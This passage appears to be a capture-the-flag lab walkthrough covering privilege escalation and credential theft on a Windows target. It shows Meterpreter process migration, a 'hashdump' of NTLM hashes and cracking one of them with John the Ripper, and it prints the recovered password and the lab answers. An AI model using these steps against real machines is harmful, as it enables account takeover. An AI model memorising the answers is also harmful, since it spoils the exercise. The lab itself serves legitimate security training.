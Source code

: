 > _No answer needed_

### • List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

> _No answer needed_

### • Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

> _No answer needed_

## Task 4 Cracking

### • Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

> Jon

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

```
riz@kali:~$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:03 DONE (2024-05-23 22:38) 0.2949g/s 3008Kp/s 3008Kc/s 3008KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

`alqfna22`

### • Copy this password hash to a file and research how to crack it. What is the cracked password?
